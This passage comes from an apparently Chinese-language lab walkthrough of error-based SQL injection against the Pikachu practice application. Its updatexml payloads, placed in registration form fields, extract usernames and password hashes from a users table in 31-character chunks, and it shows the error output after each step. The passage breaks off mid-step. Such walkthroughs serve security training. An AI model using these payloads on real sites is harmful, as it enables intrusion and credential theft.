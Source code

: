    ```\
   XPATH syntax error: '~sername,password~'
   ```

   ==> 综上所示，user 表中的所有字段名为：

   ```\\
   id,username,password,level
   ```

4. 获取 user 表中的所有数据：

   ```sql
   # [1, 31]
   username=hackname' and updatexml(1,concat(0x7e,substr((select group_concat(username, ' : ', password) from users),1,31),0x7e),1) or '&password=hackpwd&sex=hacksex&phonenum=hackphone&email=hackaddress01&add=hackaddress02&submit=submit
   ```

   ```
   XPATH syntax error: '~admin : e10adc3949ba59abbe56e05'
   ```

   ```sql
   # [32(1+31), 31]
   username=hackname' and updatexml(1,concat(0x7e,substr((select group_concat(username, ' : ', password) from users),32,31),0x7e),1) or '&password=hackpwd&sex=hacksex&phonenum=hackphone&email=hackaddress01&add=hackaddress02&submit=submit
   ```

   ```
   XPATH syntax error: '~7f20f883e,pikachu : 670b14728ad'
   ```

   ==> 综上所示，user 表中**第一行**的数据为：

   ```
   admin : e10adc3949ba59abbe56e05 + 7f20f883e
   ```

   紧接着我们获取 user 表中的第二行数据：

   ```sql
   # [63(32+31), 31]
   username=hackname' and updatexml(1,concat(0x7e,substr((select group_concat(username, ' : ', password) from users),63,31),0x7e),1) or '&password=hackpwd&sex=hacksex&phonenum=hackphone&email=hackaddress01&add=hackaddress02&submit=submit
   ```

   ```
   XPATH syntax error: '~9902aecba32e22fa4f6bd,test : e9'
   ```

   ==> 综上所述，user 表中第二行数据为：

   ```
   pikachu : 670b14728ad + 9902aecba32e22fa4f6bd
   ```

   我们继续，获取 user 表中的第三行数据：

   ```sql
   # [94(63+31), 31]
   username=hackname' and updatexml(1,concat(0x7e,substr((select group_concat(username, ' : ', password) from users),94,31),0x7e),1) or '&password=hackpwd&sex=hacksex&phonenum=hackphone&email=hackaddress01&add=hackaddress02&submit=submit
   ```
